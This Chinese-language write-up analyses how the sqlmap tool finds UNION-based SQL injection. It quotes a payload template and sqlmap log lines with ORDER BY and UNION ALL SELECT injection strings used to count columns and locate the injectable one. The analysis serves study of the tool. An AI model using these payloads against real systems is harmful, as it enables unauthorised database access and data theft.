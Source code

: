 ```XML
<test>
    <title>Generic UNION query ([CHAR]) - [COLSTART] to [COLSTOP] columns (custom)</title>
    <stype>6</stype>
    <level>1</level>
    <risk>1</risk>
    <clause>1,2,3,4,5</clause>
    <where>1</where>
    <vector>[UNION]</vector>
    <request>
        <payload/>
        <comment>[GENERIC_SQL_COMMENT]</comment>
        <char>[CHAR]</char>
        <columns>[COLSTART]-[COLSTOP]</columns>
    </request>
    <response>
        <union/>
    </response>
</test>
```

1. 首先需要确认是否可能存在sql注入，sqlmap首先对比 `order by 1` 和 `order by randomInt()` 的响应包页面内容,如果不同就可能存在注入点。

2. 然后就是要确定列数，`[COLSTART]`和`[COLSTOP]`标明了 Union注入要推测的列数范围，之后 sqlmap 会通过 `order by` 或者 `union all`的方式去在该范围内暴力破解列数（二分法测试，当第 n+1 列与原始页面不同，且第 n 例与原始页面相同时就得到了实际的列数）。

   ```bash
   [21:48:54] [PAYLOAD] 1) ORDER BY 1-- -
   [21:48:59] [PAYLOAD] 1) ORDER BY 2137-- -
   [22:05:25] [PAYLOAD] 1) UNION ALL SELECT NULL-- -
   [22:05:28] [PAYLOAD] 1) UNION ALL SELECT NULL,NULL-- -
   [22:05:29] [PAYLOAD] 1) UNION ALL SELECT NULL,NULL,NULL-- -
   [22:05:29] [PAYLOAD] 1) UNION ALL SELECT NULL,NULL,NULL,NULL-- -
   [22:05:29] [PAYLOAD] 1) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL--
   ```

3. 得到列数后，sqlmap还需要推测可注入点在这些列数中的具体位置（position）,只在对应的列中使用随机数，然后再去匹配响应包内容，如果命中对应的position即使对应的位置。

   ```bash
   [22:31:42] [INFO] target URL appears to have 3 columns in query
   ...
   [22:36:10] [PAYLOAD] 1' UNION ALL SELECT NULL,NULL,CONCAT(0x7178717871,0x4b65654d4a6152447a7a,0x7171707671)-- -
   [22:36:36] [PAYLOAD] 1' UNION ALL SELECT CONCAT(0x7178717871,0x4e7051484f6150596851,0x7171707671),NULL,NULL-- -
   [22:36:42] [PAYLOAD] 1' UNION ALL SELECT NULL,CONCAT(0x7178717871,0x676c7a4b77594a49576c,0x7171707671),NULL-- -
   [22:37:37] [PAYLOAD] -4730' UNION ALL SELECT NULL,CONCAT(0x7178717871,0x416b4f584b686f417050724b4651624564585770574868515a506c6e58454d485a58645a66546b57,0x7171707671),NULL-- -
   ```

### sqlmap的攻击成功数据获取（getValue）

在获取注入点和注入模板之后，接下来的步骤是利用这些信息去获取数据。为了方便不同类型的SQL注入通过相应的模板获取数据，sqlmap将其统一封装到了`getValue`函数中。只需提供SQL语句，该函数就能返回结果，接下来分析下sqlmap是如何做到的。（注入模板对应的是 `payloads/*.xml` 中 `vector` 标签内的内容。一般都会存在一些特殊标签（例如 `[QUERY]`, `[INFERENCE]`），用于替换`queries.xml`中具体的语句。）
